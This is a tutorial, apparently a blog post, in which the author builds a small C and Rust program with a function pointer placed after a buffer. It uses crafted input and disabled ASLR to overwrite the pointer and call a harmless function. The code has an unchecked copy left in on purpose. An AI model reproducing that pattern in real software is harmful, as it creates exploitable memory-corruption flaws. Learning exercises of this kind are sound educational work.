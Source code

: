```yaml
---
title: Playing with buffer overflow in Rust
---
```


## 1. Foreword

For a long time I wanted to play with a buffer overflow exploit. The idea is pretty simple: the "attacker" prepares specially crafted input, so that too many bytes are written into the buffer and, as a result, adjacent memory locations are overwritten, potentially changing the behavior of the program. Initially my idea was to implement this using C, but after I started learning Rust I was also curious how would it differ. In general, it's just a small exercise in using raw function pointers in Rust.

Of course, performing such attack in the wild is much harder than locally in our own program, where we can change the code, how it is executed, turn off protections and it's easy to check memory locations used. But still, it's fun ;)

## 2. An example in C

To avoid overcomplicating things I looked for a tutorial how to do it in C first. My choice was to use a struct with a buffer and a pointer to a function, which is executed after reading the first command line argument into the buffer. One of the easiest ways to make use of buffer overflow. This is the tutorial, which describes such example: [Into the art of Binary Exploitation 0x00000](https://infosecwriteups.com/into-the-art-of-binary-exploitation-0x000001-stack-based-overflow-50fe48d58f10).

And here is the code in C, taken from this tutorial:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void abracadabra() {
 printf("Abracadabra! Function called!\n");
 exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*point)();
  } hackvist;

  hackvist.point = NULL;
  strcpy(hackvist.buffer, argv[1]);

  printf("abracadabra function address: %p\n",abracadabra);
  printf("hackvist.point after strcpy: %p\n", hackvist.point);
  if (hackvist.point) {
    fflush(stdout);
    hackvist.point();
  } else {
    printf("Try Again\n");
  }

  exit(0);
}
```

## 3. The code in Rust

My goal was to translate this code above into Rust. This is the function we'll try to call:
```Rust
fn abracadabra() {
    println!("Abracadabra! Function called!");
}
```

And this is the struct with a buffer, which we'll try to overflow:
```Rust
#[repr(C)]
struct Hackvist {
    buffer: [u8; 16],
    point: *const fn(),
}
```

We'll also need some unsafe function, to copy bytes without checking the size of the destination buffer. This can be done with `std::ptr::copy()`:
```Rust
unsafe {
    std::ptr::copy(
        input_bytes.as_ptr(),
        hackvist.buffer.as_mut_ptr(),
        input_bytes.len(),
    )
}
```

At the end, to make our life easier, we'll add printing of `abracadabra()` function address, as well as, the content of `hackvist.point`, so we can find out what should we provide as an input to call `abracadabra()`:
```Rust
println!("abracadabra function address: x{:0x}", abracadabra as usize);
println!(
    "hackvist.point after strcpy: x{:0x}",
    hackvist.point as usize 
);
println!(
    "hackvist.point after strcpy (in chars): {:?}",
    (hackvist.point as usize as u64)
        .to_le_bytes()
        .into_iter()
        .map(|b| char::from(b))
        .collect::<String>()
);
```

Taken all of this together, this is the source code for this buffer overflow exercise:
```Rust
use std::env;
use std::ffi::OsString;
use std::os::unix::ffi::OsStrExt;

fn abracadabra() {
    println!("Abracadabra! Function called!");
}

#[repr(C)]
struct Hackvist {
    buffer: [u8; 16],
    point: *const fn(),
}

fn main() {
    let mut args: Vec<OsString> = env::args_os().into_iter().collect();
    let first_arg: OsString = args.remove(1);
    let input_bytes: &[u8] = first_arg.as_bytes();
    let mut hackvist = Hackvist {
        buffer: [0; 16],
        point: 0 as *const fn() -> (),
    };
    
    unsafe {
        std::ptr::copy(
            input_bytes.as_ptr(),
            hackvist.buffer.as_mut_ptr(),
            input_bytes.len(),
        )
    }
    
    println!("abracadabra function address: x{:0x}", abracadabra as usize);
    println!(
        "hackvist.point after strcpy: x{:0x}",
        hackvist.point as usize 
    );
    println!(
        "hackvist.point after strcpy (in chars): {:?}",
        (hackvist.point as usize as u64)
            .to_le_bytes()
            .into_iter()
            .map(|b| char::from(b))
            .collect::<String>()
    );

    if hackvist.point as usize == 0 {
        println!("Try again");
    } else {
        let code: fn() = unsafe { std::mem::transmute(hackvist.point) };
        code();
    }
}
```

## 4. Running it!

Now, let's try to build it:
```
$ rustc --edition 2021 buffer-overflow.rs
```
And run (the values can differ on your computer):
```
$ ./buffer-overflow "AAAABBBB"
abracadabra function address: x5595670e21d0
hackvist.point after strcpy: x0
hackvist.point after strcpy (in chars): "\u{0}\u{0}\u{0}\u{0}\u{0}\u{0}\u{0}\u{0}"
Try again
```
This time the input string was too short `AAAABBBB` has only 8 bytes, so it wasn't enough to overflow our 16 byte buffer and write into `hackvist.point` function pointer. Let's try with longer input:

```
$ ./buffer-overflow "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
abracadabra function address: x55a4246391d0
hackvist.point after strcpy: x4646464645454545
hackvist.point after strcpy (in chars): "EEEEFFFF"
Segmentation fault (core dumped)
```
As we can see, we managed to overflow the buffer and write into the function pointer. It wasn't correctly set, so there was a segmentation fault.

Right now we'll want to change letters `EEEEFFFF` in the input string into `abracadabra()` function address. Let's try:
```
$ ./buffer-overflow $(python -c 'print "AAAABBBBCCCCDDDD\xd0\x91\x63\x24\xa4\x55"')
abracadabra function address: x55f9ece391d0
hackvist.point after strcpy: x55a4246391d0
hackvist.point after strcpy (in chars): "Ð\u{91}c$¤U\u{0}\u{0}"
Segmentation fault (core dumped)
```

It didn't work, even though the `hackvist.point` was "correctly" overwritten with `x55a4246391d0`, which is exactly the `abracadabra()` function address from our previous run: `x55a4246391d0`.

The reason for this is that on my machine, [address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is used to make buffer overflow attacks harder. This can be turned off by running the binary with:
```
$ setarch x86_64 -R ./buffer-overflow \
> $(python -c 'print "AAAABBBBCCCCDDDD\xd0\x91\x63\x24\xa4\x55"')
abracadabra function address: x55555555e1d0
hackvist.point after strcpy: x55a4246391d0
hackvist.point after strcpy (in chars): "Ð\u{91}c$¤U\u{0}\u{0}"
Segmentation fault (core dumped)
```

This time the address has changed once again, but from now on, the `abracadabra()` function address shouldn't change, so we can use `x55555555e1d0` address in our input:

```
$ setarch x86_64 -R ./buffer-overflow \
> $(python -c 'print "AAAABBBBCCCCDDDD\xd0\xe1\x55\x55\x55\x55"')
abracadabra function address: x55555555e1d0
hackvist.point after strcpy: x55555555e1d0
hackvist.point after strcpy (in chars): "ÐáUUUU\u{0}\u{0}"
Abracadabra! Function called!
```

Success! Buffer overflow has overwritten the `hackvist.point` pointer with a valid function address and we have changed the program behaviour with our sneaky input :)
